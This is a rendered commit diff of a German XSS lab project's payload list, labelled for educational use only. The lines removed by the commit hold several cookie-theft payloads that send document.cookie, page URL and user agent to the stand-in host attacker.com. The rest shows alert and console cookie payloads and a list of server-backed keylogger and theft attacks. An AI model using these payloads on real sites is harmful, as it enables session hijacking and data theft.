

Before and after one commit to asacik/XSS_Projekt, a Markdown page: documents/payloads.md, 3 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update: payloads.md Datei wurde geupdated

````diff
--- a/documents/payloads.md
+++ b/documents/payloads.md
@@ -1,6 +1,18 @@
-# Reflected XSS Payloads
+# Reflected XSS Payloads - Vollständige Sammlung
 
-## Basis Payloads
+⚠️ **NUR FÜR BILDUNGSZWECKE IN KONTROLLIERTEN UMGEBUNGEN!**
+
+Diese Datei enthält XSS-Payloads für Testzwecke. Die Payloads sind in zwei Hauptkategorien unterteilt:
+- **Ohne Server**: Funktionieren eigenständig im Browser
+- **Mit Server**: Benötigen den Attacker-Server auf `http://localhost:3000`
+
+---
+
+# Teil 1: Angriffe OHNE Server
+
+Diese Payloads funktionieren eigenständig im Browser und benötigen keine externe Infrastruktur.
+
+## 1.1 Basis Payloads
 
 ### IMG-Tag mit onerror (EMPFOHLEN!)
 
@@ -138,57 +150,23 @@
 
 ---
 
-## Cookie-Diebstahl
+## 1.2 Cookie-Anzeige (ohne Server)
 
-### Cookies anzeigen
+### Cookies in Alert anzeigen
 
 ```html
 <img src=x onerror="alert(document.cookie)">
 ```
 
----
-
-### Cookies an Server senden (fetch)
+### Cookies in Console anzeigen
 
 ```html
-<img src=x onerror="fetch('https://attacker.com/steal?c='+document.cookie)">
+<img src=x onerror="console.log(document.cookie)">
 ```
 
 ---
 
-### Cookies an Server senden (Image)
-
-```html
-<img src=x onerror="new Image().src='https://attacker.com/steal?c='+document.cookie">
-```
-
----
-
-### Mit URL-Encoding
-
-```html
-<img src=x onerror="fetch('https://attacker.com/steal?c='+encodeURIComponent(document.cookie))">
-```
-
----
-
-### Via XMLHttpRequest
-
-```html
-<img src=x onerror="var x=new XMLHttpRequest();x.open('GET','https://attacker.com/steal?c='+document.cookie);x.send()">
-```
-
----
-
-### Cookies + URL + UserAgent
-
-```html
-<img src=x onerror="fetch('https://attacker.com/steal',{method:'POST',body:JSON.stringify({c:document.cookie,u:location.href,a:navigator.userAgent})})">
-```
-
----
-
-## Phishing
+## 1.3 Phishing Angriffe (ohne Server)
 
 ### Fake Login-Form
 
@@ -265,0 +444,8 @@
+## Angriffe MIT Server:
+- Cookie-Diebstahl mit Übertragung
+- Keylogger mit Datenübertragung
+- Newsletter-spezifische Angriffe
+- Kombinations-Angriffe
+- Vollständige Datenerfassung
+
+**Server-Vorteil:** Persistente Speicherung und Echtzeit-Monitoring aller gestohlenen Daten im Dashboard.
````
Also changed, not shown: other parts of documents/payloads.md (+203 -3 lines), documents/payloads-with-server.md (deleted, +0 -160 lines).
